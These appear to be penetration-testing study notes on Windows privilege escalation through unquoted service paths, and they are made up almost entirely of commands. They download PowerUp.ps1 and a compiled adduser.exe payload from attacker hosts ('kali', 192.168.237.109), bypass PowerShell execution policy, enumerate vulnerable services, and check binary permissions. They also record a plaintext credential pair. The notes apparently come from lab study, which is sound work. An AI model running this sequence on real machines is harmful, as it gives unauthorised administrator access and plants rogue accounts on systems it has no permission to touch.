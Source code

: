 ## Abuse unquoted service paths

https://juggernaut-sec.com/unquoted-service-paths/

*No quotes and Space detected*

```
iwr http://kali/PowerUp.ps1 -Outfile PowerUp.ps1
```

```
powereshell -ep bypass
```

```
..\PowerUp.ps1
```

```
Get-UnquotedService
```

```
sc qc unquotedsvc
```

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

```
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

```
nano adduser.c
```

```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

*dave2 : password123!*

```
iwr -uri http://192.168.237.109/adduser.exe -Outfile adduser.exe
```

![](Pasted%20image%2020231023230420.png)

